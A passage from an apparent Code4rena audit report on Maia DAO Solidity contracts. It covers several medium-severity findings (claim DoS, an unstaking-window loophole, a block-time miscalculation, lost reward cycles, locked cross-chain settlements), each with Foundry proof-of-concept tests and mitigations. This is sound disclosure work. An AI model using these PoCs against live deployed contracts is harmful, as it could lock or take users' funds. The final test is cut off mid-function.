However, the [checkWeight, checkGovernance & checkPartnerGovernance](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/maia/vMaia.sol#L66-L88) modifiers in the `vMaia` contract do not account for this conversion rate and therefore implicity only allow a conversion rate of 1.

As a consequence, as soon as the conversion rate is increased to `>` 1, a call to [ERC4626PartnerManager.claimOutstanding()](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/maia/tokens/ERC4626PartnerManager.sol#L89-L97) will inevitably revert due to subsequent calls to the above modifiers. Since the conversion rate can [only be increased](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/maia/tokens/ERC4626PartnerManager.sol#L217) and the `vMaia` vault contract is not upgradeable, the `claimOutstanding()` method is subject to **permanent DoS**.

Of course, the user can still claim a reduced amount of utility tokens (according to a conversion rate of 1) via the [PartnerUtilityManager.claimMultipleAmounts(...)](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/maia/PartnerUtilityManager.sol#L115-L124) method (`PartnerUtilityManager` is the base of the `ERC4626PartnerManager` contract), but this still implies a loss of assets for the user since not all utility tokens they are eligible for can be claimed. Furthermore, this workaround doesn't help when the user is a contract which implemented a call to the `claimOutstanding()` method.

### Proof of Concept

The following PoC demonstrates the above DoS when trying to claim the utility tokens with increased conversion rate. Just apply the *diff* below and run the test cases with `forge test -vv --match-test testDepositMaia`:

```diff
diff --git a/test/maia/vMaiaTest.t.sol b/test/maia/vMaiaTest.t.sol
index 6efabc5..499abb6 100644
--- a/test/maia/vMaiaTest.t.sol
+++ b/test/maia/vMaiaTest.t.sol
@@ -7,9 +7,11 @@ import {SafeTransferLib} from "solady/utils/SafeTransferLib.sol";

 import {vMaia, PartnerManagerFactory, ERC20} from "@maia/vMaia.sol";
 import {IBaseVault} from "@maia/interfaces/IBaseVault.sol";
+import {IERC4626PartnerManager} from "@maia/interfaces/IERC4626PartnerManager.sol";
 import {MockVault} from "./mock/MockVault.t.sol";

 import {bHermes} from "@hermes/bHermes.sol";
+import {IUtilityManager} from "@hermes/interfaces/IUtilityManager.sol";

 import {DateTimeLib} from "solady/utils/DateTimeLib.sol";

@@ -47,7 +49,7 @@ contract vMaiaTest is DSTestPlus {
             "vMAIA",
             address(bhermes),
             address(vault),
-            address(0)
+            address(this) // set owner to allow call to 'increaseConversionRate'
         );
     }

@@ -86,6 +88,33 @@ contract vMaiaTest is DSTestPlus {
         assertEq(vmaia.balanceOf(address(this)), amount);
     }

+    function testDepositMaiaClaimDoS() public {
+        testDepositMaia();
+
+        // increase 'pbHermes<>bHermes' conversion rate
+        vmaia.increaseConversionRate(bHermesRate * 2);
+
+        // claim utility tokens DoS
+        hevm.expectRevert(IUtilityManager.InsufficientShares.selector);
+        vmaia.claimOutstanding();
+
+        // cannot undo conversion rate -> claimOutstanding() method is broken forever
+        hevm.expectRevert(IERC4626PartnerManager.InvalidRate.selector);
+        vmaia.increaseConversionRate(bHermesRate);
+    }
+
+    function testDepositMaiaClaimSuccess() public {
+        testDepositMaia();
+
+        vmaia.claimOutstanding();
+
+        // got utility tokens as expected
+        assertGt(vmaia.bHermesToken().gaugeWeight().balanceOf(address(this)), 0);
+        assertGt(vmaia.bHermesToken().governance().balanceOf(address(this)), 0);
+        assertGt(vmaia.partnerGovernance().balanceOf(address(this)), 0);
+    }
+
+
     function testDepositMaiaAmountFail() public {
         assertEq(vmaia.bHermesRate(), bHermesRate);

```

### Tools Used

VS Code, Foundry

### Recommended Mitigation Steps

Simply remove the incorrect [checkWeight, checkGovernance & checkPartnerGovernance](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/maia/vMaia.sol#L66-L88) modifiers from the `vMaia` contract, since the [correct modifiers](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/maia/tokens/ERC4626PartnerManager.sol#L293-L323) (which account for the conversion rate), are already implemented in the `ERC4626PartnerManager` contract.

```diff
diff --git a/src/maia/vMaia.sol b/src/maia/vMaia.sol
index 3aa70cf..5ee6f66 100644
--- a/src/maia/vMaia.sol
+++ b/src/maia/vMaia.sol
@@ -59,34 +59,6 @@ contract vMaia is ERC4626PartnerManager {
         currentMonth = DateTimeLib.getMonth(block.timestamp);
     }

-    /*///////////////////////////////////////////////////////////////
-                            MODIFIERS
-    //////////////////////////////////////////////////////////////*/
-
-    /// @dev Checks available weight allows for the call.
-    modifier checkWeight(uint256 amount) virtual override {
-        if (balanceOf[msg.sender] < amount + userClaimedWeight[msg.sender]) {
-            revert InsufficientShares();
-        }
-        _;
-    }
-
-    /// @dev Checks available governance allows for the call.
-    modifier checkGovernance(uint256 amount) virtual override {
-        if (balanceOf[msg.sender] < amount + userClaimedGovernance[msg.sender]) {
-            revert InsufficientShares();
-        }
-        _;
-    }
-
-    /// @dev Checks available partner governance allows for the call.
-    modifier checkPartnerGovernance(uint256 amount) virtual override {
-        if (balanceOf[msg.sender] < amount + userClaimedPartnerGovernance[msg.sender]) {
-            revert InsufficientShares();
-        }
-        _;
-    }
-
     /// @dev Boost can't be claimed; does not fail. It is all used by the partner vault.
     function claimBoost(uint256 amount) public override {}

```

### Assessed type

Invalid Validation

**[0xLightt (Maia) confirmed](https://github.com/code-423n4/2023-05-maia-findings/issues/470#issuecomment-1632861068)**

**[0xLightt (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/470#issuecomment-1709166459):**
 > Addressed [here](https://github.com/Maia-DAO/eco-c4-contest/tree/470).
***

## [[M-24] Unstaking `vMAIA` tokens on the first Tuesday of the month can be offset](https://github.com/code-423n4/2023-05-maia-findings/issues/469)
*Submitted by [ABA](https://github.com/code-423n4/2023-05-maia-findings/issues/469), also found by [Josiah](https://github.com/code-423n4/2023-05-maia-findings/issues/853)*

According to [project documentation](https://v2-docs.maiadao.io/protocols/overview/tokenomics/vMaia) and [natspec](https://github.com/code-423n4/2023-05-maia/blob/main/src/maia/vMaia.sol#L23-L24):

> Users can stake their MAIA tokens at any time, but can only withdraw their staked tokens on the first Tuesday of each month.

> *NOTE: Withdraw is only allowed once per month, during the 1st Tuesday (UTC+0) of the month.*

The implementation that keeps the above invariant true is dependent on at least one user attempting to unstake their `vMAIA` on the first chronological Tuesday of the month. But if nobody unstakes on the first Tuesday, then, on the second Tuesday of the month, the conditions are met and users can unstake them. Again, if no one unstakes on the second Tuesday, then the next Tuesday after that will be valid. So on and so forth.

Not respecting the declared withdraw/unstaking period and limitation is a severe protocol issue in itself. The case is also not that improbable to happen. If good enough incentives are present, there will be odd Tuesdays where nobody will unstake, thus creating this loophole.

### Issue details

`vMAIA` is an `ERC4626` vault compliant contract ([`vMAIA`](https://github.com/code-423n4/2023-05-maia/blob/main/src/maia/vMaia.sol#L26) -> [`ERC4626PartnerManager`](https://github.com/code-423n4/2023-05-maia/blob/main/src/maia/tokens/ERC4626PartnerManager.sol#L22) -> [`ERC4626`](https://github.com/code-423n4/2023-05-maia/blob/main/src/erc-4626/ERC4626.sol)). `ERC4626::withdraw` has a [beforeWithdraw](https://github.com/code-423n4/2023-05-maia/blob/main/src/erc-4626/ERC4626.sol#L70) hook `callback` that is overwritten/implemented in [vMAIA::beforeWithdraw](https://github.com/code-423n4/2023-05-maia/blob/main/src/maia/vMaia.sol#L97-L114).

```Solidity
    /**
     * @notice Function that performs the necessary verifications before a user can withdraw from their vMaia position.
     *  Checks if we're inside the unstaked period, if so then the user is able to withdraw.
     * If we're not in the unstake period, then there will be checks to determine if this is the beginning of the month.
     */
    function beforeWithdraw(uint256, uint256) internal override {
        /// @dev Check if unstake period has not ended yet, continue if it is the case.
        if (unstakePeriodEnd >= block.timestamp) return;


        uint256 _currentMonth = DateTimeLib.getMonth(block.timestamp);
        if (_currentMonth == currentMonth) revert UnstakePeriodNotLive();


        (bool isTuesday, uint256 _unstakePeriodStart) = DateTimeLib.isTuesday(block.timestamp);
        if (!isTuesday) revert UnstakePeriodNotLive();


        currentMonth = _currentMonth;
        unstakePeriodEnd = _unstakePeriodStart + 1 days;
    }
```

By thoroughly analyzing the function we can see that:

- It first checks if the unstake period has not ended. The unstake period is 24h since the start of Tuesday. On the first call for the contract this is `0`, so execution continues:

```Solidity
        /// @dev Check if unstake period has not ended yet, continue if it is the case.
        if (unstakePeriodEnd >= block.timestamp) return;
```

- It then gets to the current month and compares it to the last saved `currentMonth`. The `currentMonth` is set only after the Tuesday condition is met. Doing it this way, they ensure that after a Tuesday was validated, no further unstakes can happen in the same month.

```Solidity
        uint256 _currentMonth = DateTimeLib.getMonth(block.timestamp);
        if (_currentMonth == currentMonth) revert UnstakePeriodNotLive();
```

- The next operation is to determine if "now" is a Tuesday and also to return to the start of the current day (this is to be used in determining the unstake period). To note here, is that it's only checking if "it is a Tuesday", **not the first Tuesday of the month**, rather. Up until now, the check is **this is the first Tuesday in a month that was noted by this execution**.

```Solidity
        (bool isTuesday, uint256 _unstakePeriodStart) = DateTimeLib.isTuesday(block.timestamp);
        if (!isTuesday) revert UnstakePeriodNotLive();
```

- After checking that we are in the first **marked** Tuesday of this month, the current month is noted (saved to `currentMonth`), and the unstake period is defined as the entire day (24 hours since the start of Tuesday).

```Solidity
        currentMonth = _currentMonth;
        unstakePeriodEnd = _unstakePeriodStart + 1 days;
```

To conclude the flow, the withdrawal limitation is actually:

- In a given month, on the first Tuesday where users attempt to withdraw, and only on that Tuesday, will withdrawals be allowed. It can be the last Tuesday of the month or the first Tuesday of the month.

### Proof of Concept

Add the following coded POC to `test\maia\vMaiaTest.t.sol` and run it with `forge test --match-test testWithdrawMaiaWorksOnAnyThursday -vvv`:

```Solidity

    import {DateTimeLib as MaiaDateTimeLib} from "@maia/Libraries/DateTimeLib.sol"; // add this next to the other imports

    function testWithdrawMaiaWorksOnAnyThursday() public {
        testDepositMaia();
        uint256 amount = 100 ether;

        // we now are in the first Tuesday of the month (ignore the name, getFirstDayOfNextMonthUnix gets the first Tuesday of the month)
        hevm.warp(getFirstDayOfNextMonthUnix());

        // sanity check that we are actually in a Tuesday
        (bool isTuesday_, ) = MaiaDateTimeLib.isTuesday(block.timestamp);
        assertTrue(isTuesday_);

        // no withdraw is done, and then the next Tuesday comes
        hevm.warp(block.timestamp + 7 days);

        // sanity check that we are actually in a Tuesday, again
        (isTuesday_, ) = MaiaDateTimeLib.isTuesday(block.timestamp);
        assertTrue(isTuesday_);

        // withdraw succeeds even if we are NOT in the first Tuesday of the month, but in the second one
        vmaia.withdraw(amount, address(this), address(this));

        assertEq(maia.balanceOf(address(vmaia)), 0);
        assertEq(vmaia.balanceOf(address(this)), 0);
    }
```

### Tools Used

ChatGPT for the `isFirstTuesdayOfMonth` function optimizations.

### Recommended Mitigation Steps

Modify the `isTuesday` function into a `isFirstTuesdayOfMonth` function. Which is a function that checks the given timestamp is in the first Tuesday of its containing month.

Example implementation:

```Solidity
    /// @dev Returns if the provided timestamp is in the first Tuesday of it's corresponding month (result) and (startOfDay);
    ///      startOfDay will always by the timestamp of the first Tuesday found searching from the given timestamp,     
    ///      regardless if it's the first of the month or not, so always check result if using it
    function isFirstTuesdayOfMonth(uint256 timestamp) internal pure returns (bool result, uint256 startOfDay) {
        uint256 month = getMonth(timestamp);
        uint256 firstDayOfMonth = timestamp - ((timestamp % 86400) + 1) * 86400;
        
        uint256 dayIndex = ((firstDayOfMonth / 86400 + 3) % 7) + 1; // Monday: 1, Tuesday: 2, ....., Sunday: 7.
        uint256 daysToAddToReachNextTuesday = (9 - dayIndex) % 7;

        startOfDay = firstDayOfMonth + daysToAddToReachNextTuesday * 86400;
        result = (startOfDay <= timestamp && timestamp < startOfDay + 86400) && month == getMonth(startOfDay);
    }

```

### Assessed type

Timing

**[alexxander (warden) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/469#issuecomment-1653409740):**
 > It is unrealistic to believe that absolutely no one will unstake their tokens. Even then, there wouldn't be any loss of funds. I'd consider QA or Low impact.

**[Trust (judge) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/469#issuecomment-1653440145):**
 > The rationalization for impact is well stated in [#396](https://github.com/code-423n4/2023-05-maia-findings/issues/396).

**[0xLightt (Maia) acknowledged and commented](https://github.com/code-423n4/2023-05-maia-findings/issues/469#issuecomment-1655674784):**
 > We are not addressing this because it will never happen in a realistic scenario. It is safe to assume at least one person will withdraw and we will do it ourselves if that doesn't happen. Will update docs and comments to state that it is the first Tuesday of every month that someone withdraws and not only the first Tuesday of every month.

***

## [[M-25] Wrong consideration of `blockformation` period causes incorrect `votingPeriod` and `votingDelay` calculations](https://github.com/code-423n4/2023-05-maia-findings/issues/417)
*Submitted by [MohammedRizwan](https://github.com/code-423n4/2023-05-maia-findings/issues/417), also found by [btk](https://github.com/code-423n4/2023-05-maia-findings/issues/843), [tsvetanovv](https://github.com/code-423n4/2023-05-maia-findings/issues/728), [T1MOH](https://github.com/code-423n4/2023-05-maia-findings/issues/149), and [ByteBandits](https://github.com/code-423n4/2023-05-maia-findings/issues/442)*

In `GovernorBravoDelegateMaias.sol` contract, there are wrong calculations in [MIN_VOTING_PERIOD](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/governance/GovernorBravoDelegateMaia.sol#L18), [MAX_VOTING_PERIOD](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/governance/GovernorBravoDelegateMaia.sol#L21C29-L21C46),  [MIN_VOTING_DELAY](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/governance/GovernorBravoDelegateMaia.sol#L24) and [MAX_VOTING_DELAY](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/governance/GovernorBravoDelegateMaia.sol#L27) because of the incorrect consideration of the `blockformation` period.

The contracts will be deployed on Ethereum mainnet Chain too. In an Ethereum mainnet chain, the blocks are made every 12 seconds but the `votingPeriod` and `votingDelay` variables have used 15 seconds while calculating their values.

For example:

`MIN_VOTING_PERIOD` is considered for 2 weeks:

```Solidity
   uint256 public constant MIN_VOTING_PERIOD = 80640; // About 2 weeks
```

2 weeks (in seconds) = 1,209,600<br>
Considered Ethereum `blockformation` time in seconds = 15

Therefore, `MAX_VOTING_PERIOD` = `1,209,600 / 15` = 80,640 (blocks).

This is how the calculations have arrived for other `votingPeriod` and `votingDelay` state variables. However, Ethereum `blockformation` happens every 12 seconds and it is confirmed in the below sources:<br>
[Reference-01](https://chainstack.com/protocols/ethereum/#Performance)<br>
[Reference-02](https://ycharts.com/indicators/ethereum_average_block_time)

**The correct calculation should be with 12 seconds as `blockformation` period.**

For example:<br>
2 weeks (in seconds) = 1,209,600<br>
Actual Ethereum `blockformation` time in seconds = 12

Therefore, `MAX_VOTING_PERIOD` = `1,209,600 / 12` = 100,800 (blocks).

Total number of block differences for a 2 week duration = `100,800 - 80,640 = 20,160 ~ 5.6` hours
This much time difference will affect the function validations, which will cause unexpected design failure.

[MIN_VOTING_PERIOD](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/governance/GovernorBravoDelegateMaia.sol#L18), [MAX_VOTING_PERIOD](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/governance/GovernorBravoDelegateMaia.sol#L21C29-L21C46), 
[MIN_VOTING_DELAY](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/governance/GovernorBravoDelegateMaia.sol#L24) and [MAX_VOTING_DELAY](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/governance/GovernorBravoDelegateMaia.sol#L27) are used in functions which are further explained as below:

```Solidity
File: src/governance/GovernorBravoDelegateMaia.sol

56    function initialize(
57        address timelock_,
58        address govToken_,
59        uint256 votingPeriod_,
60        uint256 votingDelay_,
61        uint256 proposalThreshold_
62    ) public virtual {
63        require(address(timelock) == address(0), "GovernorBravo::initialize: can only initialize once");
64        require(msg.sender == admin, "GovernorBravo::initialize: admin only");
65        require(timelock_ != address(0), "GovernorBravo::initialize: invalid timelock address");
66        require(govToken_ != address(0), "GovernorBravo::initialize: invalid govToken address");
67        require(
68            votingPeriod_ >= MIN_VOTING_PERIOD && votingPeriod_ <= MAX_VOTING_PERIOD,
69            "GovernorBravo::initialize: invalid voting period"
70        );
71        require(
72            votingDelay_ >= MIN_VOTING_DELAY && votingDelay_ <= MAX_VOTING_DELAY,
73            "GovernorBravo::initialize: invalid voting delay"
74        );

         // some code
```

At [L-68 and L-72](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/governance/GovernorBravoDelegateMaia.sol#L68-L72), these state variables are used to validate the conditions in the `initialize()` function, which can be called only once. These incorrect values make the conditions at L-68 and L-72 obsolete and the conditions will not work as expected by design.

Furthermore, the [MIN_VOTING_PERIOD](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/governance/GovernorBravoDelegateMaia.sol#L18), [MAX_VOTING_PERIOD](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/governance/GovernorBravoDelegateMaia.sol#L21C29-L21C46), [MIN_VOTING_DELAY](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/governance/GovernorBravoDelegateMaia.sol#L24) and [MAX_VOTING_DELAY](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/governance/GovernorBravoDelegateMaia.sol#L27) variables are used in the below setter functions, which for sure will not work as per the expected design:

```Solidity
397  function _setVotingDelay(uint256 newVotingDelay) external {


413   function _setVotingPeriod(uint256 newVotingPeriod) external {
```

### Discussion with Sponsors

I had a discussion with the sponsor (@0xbuzzlightyear) on this finding and the sponsor has confirmed the issue. Below is the discord discussion with the sponsor for reference and finding confirmation only:

**MohammedRizwan commented:**

    uint256 public constant MIN_VOTING_PERIOD = 80640; // About 2 weeks

Here, it is considered 15 sec for block formation considering Ethereum chain. On ethereum, the average `blockformation` time is 12 sec.
[Reference Ethereum Average Block Time](<https://ycharts.com/indicators/ethereum_average_block_time>) for in depth view into Ethereum Average Block Time including historical data from 2015 to 2023, charts and stats.

**0xbuzzlightyear commented:**
True. Nice finding. We did that before the merge.

### Proof of Concept

<https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/governance/GovernorBravoDelegateMaia.sol#L18-L27>

<https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/governance/GovernorBravoDelegateMaia.sol#L68-L72>

<https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/governance/GovernorBravoDelegateMaia.sol#L397-L423>

### Recommended Mitigation Steps

Consider 12 seconds for the `blockformation` period and correct the calculations.

**[Trust (judge) decreased severity to Medium](https://github.com/code-423n4/2023-05-maia-findings/issues/417#issuecomment-1631189029)**

**[0xLightt (Maia) confirmed](https://github.com/code-423n4/2023-05-maia-findings/issues/417#issuecomment-1655678222)**

**[0xLightt (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/417#issuecomment-1709167709):**
 > Addressed [here](https://github.com/Maia-DAO/eco-c4-contest/tree/417).

***

## [[M-26] If `HERMES` gauge rewards are not queued for distribution every week, they are slashed](https://github.com/code-423n4/2023-05-maia-findings/issues/411)
*Submitted by [ABA](https://github.com/code-423n4/2023-05-maia-findings/issues/411)*

In order to queue weekly `HERMES` rewards for distribution, `FlywheelGaugeRewards::queueRewardsForCycle` must be called during the next cycle (week). If a cycle has passed and no one calls `queueRewardsForCycle` to queue rewards, cycle gauge rewards are lost as the internal accounting does not take into consideration time passing, only the last processed cycle.

### Issue details

The minter kicks off a new epoch via calling `BaseV2Minter::updatePeriod`. The execution flow goes to `FlywheelGaugeRewards::queueRewardsForCycle` -> `FlywheelGaugeRewards::_queueRewards` where after several checks, the [rewards are queued](https://github.com/code-423n4/2023-05-maia/blob/main/src/rewards/rewards/FlywheelGaugeRewards.sol#L189-L193) in order for them to be retrieved via a call to [`FlywheelGaugeRewards::getAccruedRewards`](https://github.com/code-423n4/2023-05-maia/blob/main/src/rewards/rewards/FlywheelGaugeRewards.sol#L200) from [`BaseV2Gauge::newEpoch`](https://github.com/code-423n4/2023-05-maia/blob/main/src/gauges/BaseV2Gauge.sol#L89).

Reward queuing logic revolves around the [current and previously saved gauge cycle](https://github.com/code-423n4/2023-05-maia/blob/main/src/rewards/rewards/FlywheelGaugeRewards.sol#L78-L80):

```Solidity
        // next cycle is always the next even divisor of the cycle length above current block timestamp.
        uint32 currentCycle = (block.timestamp.toUint32() / gaugeCycleLength) * gaugeCycleLength;
        uint32 lastCycle = gaugeCycle;
```

This way of noting cycles ([and further checks done](https://github.com/code-423n4/2023-05-maia/blob/main/src/rewards/rewards/FlywheelGaugeRewards.sol#L82-L85)) does not take into consideration any intermediary cycles; only that a new cycle is after an old cycle. If `queueRewardsForCycle` is not called for a number of cycles, then rewards will be lost for those cycles.

### Proof of Concept

Rewards are calculated for the current cycle and last stored cycle only, with no intermediary accounting: 

<https://github.com/code-423n4/2023-05-maia/blob/main/src/rewards/rewards/FlywheelGaugeRewards.sol#L78-L80>

Visual example:

     0 1 2 3 4 5 6  (epoch/cycle)
    +-+-+-+-+-+-+-+
    |Q|Q|Q| | |Q|Q|
    +-+-+-+-+-+-+-+

Up until epoch 2 `queueRewardsForCycle` (Q) was called, for cycle 3 and 4 nobody calls, on cycle 5 `queueRewardsForCycle` is called again, but cycle 3 and 4 rewards are not taken into consideration.

### Recommended Mitigation Steps

Because of the way the entire `MaiaDAO` ecosystem is set up, the premise is that someone will call `BaseV2Minter::updatePeriod` (which calls `FlywheelGaugeRewards::queueRewardsForCycle`), as there is an incentive for users (or projects) to do so. Realistically, this *should* always happen, but unforeseen events may lead to this event.

It is difficult from an architectural point of view, regarding how `MaiaDAO` is constructed, to offer a solution. A generic suggestion would be to implement a snapshot mechanism or dynamic accounting of each cycle, but then the issue would be who triggers that snapshot event?

This issue is real, but mitigating it is not straightforward or evident in web3 context. One workaround is to use proper on-chain automation such as [Chainlink Automation](https://docs.chain.link/chainlink-automation/introduction).

**[0xLightt (Maia) acknowledged](https://github.com/code-423n4/2023-05-maia-findings/issues/411#issuecomment-1631677415)**

**[alexxander (warden) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/411#issuecomment-1653412426):**
 > It is unrealistic to believe that no one will call `queueRewardsForCycle` for a whole week. Especially considering it is an external function, with no access control, and users are incentivized to call it (as they will get rewards by doing so).

**[Trust (judge) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/411#issuecomment-1653449309):**
 > If the docs cover this skipped week issue, this would be a fair observation. Otherwise, users may not feel the urge to call the function and subsequently lose rewards. 

**[0xLightt (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/411#issuecomment-1653898511):**
 > Just want to add, that it is true that we need to call this every week. Distribution of rewards for each gauge that uses the `UniswapV3Staker` even has a tighter window, [needs to be queued during the first 12h](https://github.com/code-423n4/2023-05-maia/blob/main/src/gauges/UniswapV3Gauge.sol#L50-L51).
> 
> If only `BaseV2Minter::updatePeriod` is called, no rewards will be lost; but they won't be distributed in this epoch, only the next.
> 
> Every week there is a 12 hour period for everyone to call the minter, `flywheelGaugeRewards`, and then every gauge to distribute rewards properly. Because of the large time window, a simple in-house script works and possibly only using chainlink automation as a last resort, as it is more expensive.
> 
> Note: Anyone can call these functions and while they are not rewarded by doing so, they are also not rewarded if they don't and would lead to worst issues; like no LPs being rewarded and loosing all of the platforms liquidity during the week in which nothing is called.

***

## [[M-27] Ulysses omnichain - User Funds can get locked permanently via making a callout without deposit](https://github.com/code-423n4/2023-05-maia-findings/issues/377)
*Submitted by [zzebra83](https://github.com/code-423n4/2023-05-maia-findings/issues/377)*

The Ulyssses omnichain provides the user with the ability to do what is known as "multicall transactions". This is possible via the `multicallrouter` which from my review of code base, is the protocol's primarily method for enabling omnichain transactions between the source and destination chains. The contract enables the user, who is in the source chain (let's say avax), to do multicalls in the root chain via their virtual account, withdraw funds from their virtual account and then use these funds to do multiple settlements (or a single settlement) in the destination chain (which could be FTM, for instance). This let's them retrieve their desired output tokens based on amounts they deposited, all within a single transaction.

There are multiple endpoints exposed to enable these multicall functionalities. One of them enables what is known as a `multicallmultioutputnodeposit` or `multicallsingleoutputnodeposit`. They are exposed to `branch bridge agents` via calling the `0x01 flag` to signal a transaction without a deposit. This in turn, reaches the root and triggers the `executeNoDeposit` function in the `rootbranchbridgeexecutor` contract. That function then fires the `anyExecute` function in the `multicallrouter` contract.

        function anyExecute(bytes1 funcId, bytes calldata encodedData, uint24)
        external
        payable
        override
        lock
        requiresExecutor
        returns (bool, bytes memory)
    {

Based on the payload set by a user from the source chain, the function will do a number of things; first, it determines the type of transaction via the flag; let's assume the user chose the `multicallMultipleOutput`, which signals they want to do multiple calls within the root environment, and then finally they want to do multiple settlements in destination chain. This would trigger the code block below:

                /// FUNC ID: 2 (multicallSingleOutput)
        } else if (funcId == 0x02) {
            (IMulticall.Call[] memory callData, OutputParams memory outputParams, uint24 toChain) =
                abi.decode(encodedData, (IMulticall.Call[], OutputParams, uint24));

            _multicall(callData);

            _approveAndCallOut(
                address(0), // @audit should this be address of user who initiates request?, so that he can retry a settlement that failed to fire fallback
                outputParams.recipient,
                outputParams.outputToken,
                outputParams.amountOut,
                outputParams.depositOut,
                toChain
            );

            /// FUNC ID: 3 (multicallMultipleOutput)
        } else if (funcId == 0x03) {
            (IMulticall.Call[] memory callData, OutputMultipleParams memory outputParams, uint24 toChain) =
                abi.decode(encodedData, (IMulticall.Call[], OutputMultipleParams, uint24));

            _multicall(callData);

            _approveMultipleAndCallOut(
                address(0), // @audit should this be address of user who initiates request?, so that he can retry a settlement that failed to fire fallback
                outputParams.recipient,
                outputParams.outputTokens,
                outputParams.amountsOut,
                outputParams.depositsOut,
                toChain
            );
            /// UNRECOGNIZED FUNC ID
        }

The problem manifests in the code block above, essentially because the owner of the settlement that needs to be cleared in the destination branch will be the zero address; depending on whether the user requested a `multicallSingleOutput` or a `multicallMultiOutput` action. This code block will do a number of things; first, it will allow the user to make multi calls via the payload they specified. Second, it will approve the `Root Port` to spend output `hTokens` on behalf of the user. It will then move output `hTokens` from `Root` to the destination `Branch` and call `clearTokens`. This process updates the state of the `root bridge` via the `_updateStateOnBridgeOut`. The tokens are then "cleared" in the destination chain and the user should receive their desired output tokens.

However, because the settlement has no linked owner, if the transaction to the destination chain fails for whatever reason, the user will be unable to retry the settlement via the `root bridge`. They also cannot redeem the settlement. This effectively means, the user funds transfered to the ulysses root environment are essentially locked.

        function redeemSettlement(uint32 _depositNonce) external lock {
        //Get deposit owner.
        address depositOwner = getSettlement[_depositNonce].owner;

        //Update Deposit
        if (getSettlement[_depositNonce].status != SettlementStatus.Failed || depositOwner == address(0)) {
            revert SettlementRedeemUnavailable();

As you can see above, a settlement with an owner set to address zero is not redeemable. The logic behind that was a redeemed settlement will be deleted and hence `getSettlement` would retrieve an empty settlement struct with an owner of address zero.

    function _retrySettlement(uint32 _settlementNonce) internal returns (bool) {
        //Get Settlement
        Settlement memory settlement = getSettlement[_settlementNonce];

        //Check if Settlement hasn't been redeemed.
        if (settlement.owner == address(0)) return false;

As you can see above, settlement retries will also fail; because once again, the settlement was set with owner of address zero initially.

The impact of this is very high in my opinion, because not only will user funds be permanently locked, but system invariants will be broken, since the token accounting in the system will not be in balance. The proof of concept will help clarify this issue further.

### Proof of Concept

        function testMulticallMultipleOutputNoDepositFailed() public {
        //Add Local Token from Avax
        testSetLocalToken();

        require(
            RootPort(rootPort).getLocalTokenFromGlobal(newAvaxAssetGlobalAddress, ftmChainId) == newAvaxAssetLocalToken,
            "Token should be added"
        );

        
        hevm.deal(address(userVirtualAccount), 1 ether);
        hevm.deal(address(avaxMulticallBridgeAgentAddress), 10 ether);

        //Prepare data
        address[] memory outputTokens = new address[](2);
        uint256[] memory amountsOut = new uint256[](2);
        uint256[] memory depositsOut = new uint256[](2);
        bytes memory packedData;

        {
            outputTokens[0] = ftmGlobalToken;
            outputTokens[1] = newAvaxAssetGlobalAddress;
            amountsOut[0] = 100 ether;
            amountsOut[1] = 100 ether;
            depositsOut[0] = 50 ether;
            depositsOut[1] = 0 ether;

            Multicall2.Call[] memory calls = new Multicall2.Call[](2);

            //Prepare call to transfer 100 wFTM global token from contract to Root Multicall Router
            calls[0] = Multicall2.Call({
                target: ftmGlobalToken,
                callData: abi.encodeWithSelector(bytes4(0x23b872dd), address(userVirtualAccount), address(rootMulticallRouter), 100 ether)
            });

            //Prepare call to transfer 100 hAVAX global token from contract to Root Multicall Router
            calls[1] = Multicall2.Call({
                target: newAvaxAssetGlobalAddress,
                callData: abi.encodeWithSelector(bytes4(0x23b872dd), address(userVirtualAccount), address(rootMulticallRouter), 100 ether)
            });


            //Output Params
            OutputMultipleParams memory outputMultipleParams =
                OutputMultipleParams(userVirtualAccount, outputTokens, amountsOut, depositsOut);

            // minted assets to the user directly
            hevm.startPrank(address(rootPort));
            ERC20hTokenRoot(ftmGlobalToken).mint(userVirtualAccount, 100 ether, ftmChainId);
            ERC20hTokenRoot(newAvaxAssetGlobalAddress).mint(userVirtualAccount, 100 ether, avaxChainId);
            hevm.stopPrank();


            uint256 balanceUserBeforeAvax = MockERC20(newAvaxAssetGlobalAddress).balanceOf(userVirtualAccount);
